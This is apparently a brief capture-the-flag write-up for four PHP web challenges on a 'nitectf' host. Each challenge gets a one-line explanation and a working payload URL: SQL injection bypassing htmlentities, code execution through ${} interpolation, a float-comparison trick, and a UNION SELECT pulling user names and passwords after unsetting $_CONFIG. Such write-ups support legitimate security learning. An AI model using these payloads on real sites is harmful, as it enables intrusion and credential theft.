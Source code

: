# 4 php challenges and their payloads


# challenge1:

htmlentities() escapes single quotes and double quotes, but ignores backslashes, so you can use \ to escape the second single quote in the original SQL statement and successfully escape the quotes.

payload: http://nitectf/challenge1.php?username=\&password=%20or%201=1%20limit%201%23

# challenge2:

Usage of curly braces in PHP: foobar in the string ${foobar} will be treated as a variable, see: http://php.net/manual/en/language.variables.variable.php for details

payload: http://nitectf/challenge2.php?str=${${phpinfo()}}

# challenge3:

Make use of the different characteristics of floating point numbers in PHP and MySQL, in PHP 1.0000000000001 != 1 and in MySQL 1.0000000000001 == 1

payload: http://nitectf/challenge3.phpid=1.0000000000001

# challenge4:

The code in foreach avoids the occurrence of variable overwriting, but it may also cause the original variable to be released. By passing the parameter $_CONFIG=anything to release the $_CONFIG variable, thereby bypassing the filter, the rest is SQL injection.

payload: http://nitectf/challenge4.php?kw='%20and%200%20union%20select%20name,pass%20from%20users%20where%20id=1%23&_CONFIG=aaa

